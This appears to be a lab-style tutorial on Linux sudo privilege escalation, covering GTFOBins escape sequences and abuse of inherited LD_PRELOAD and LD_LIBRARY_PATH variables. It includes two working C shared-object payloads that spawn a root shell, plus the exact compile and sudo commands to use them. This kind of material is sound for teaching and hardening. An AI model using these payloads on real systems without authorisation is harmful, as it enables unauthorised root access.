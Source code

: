 # Sudo

### Shell Escape Sequences

List the programs which sudo allows your user to run:

`sudo -l`

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

### Environment Variables

Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env\_keep options):

`sudo -l`

LD\_PRELOAD and LD\_LIBRARY\_PATH are both inherited from the user's environment. LD\_PRELOAD loads a shared object before any others when a program is run. LD\_LIBRARY\_PATH provides a list of directories where shared libraries are searched for first.

#### LD\_PRELOAD

Create a shared object using the code preload.c which is:

{% code title="preload.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
{% endcode %}

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD\_PRELOAD environment variable to the full path of the new shared object:

`sudo LD_PRELOAD=/tmp/preload.so program-name-here`

A root shell should spawn.

#### LD\_LIBRARY\_PATH

Run ldd against the apache2 program file to see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code library\_path.c which is:

{% code title="library_path.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
{% endcode %}

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

`sudo LD_LIBRARY_PATH=/tmp apache2`

A root shell should spawn. Exit out of the shell.

